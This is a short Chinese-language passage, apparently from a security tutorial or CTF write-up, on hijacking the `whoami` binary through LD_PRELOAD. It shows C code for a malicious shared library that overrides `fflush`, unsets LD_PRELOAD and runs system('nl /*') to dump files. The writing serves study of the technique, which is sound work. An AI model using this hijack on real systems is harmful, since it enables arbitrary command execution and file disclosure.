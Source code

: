 然后我们看`whoami`​调用了哪些静态链接库呢

[![](assets/1708482491-6152389c5e0afbcb744145e1fa3c5e36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220140736-585663cc-cfb6-1.png)

有`fflush`​,`geteuid`​,`puts`​等等

一开始一直尝试用`puts`​函数来劫持，发现一直成功不了，后面换了`fflush`​之后就成功了 (不太清楚为什么)

这边用`fflush`​进行演示

```bash
#include <stdlib.h>
#include <string.h>
void payload() {
    system("nl /*");
}
int fflush() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

然后通过命令，编译获得我们的恶意`so`​文件
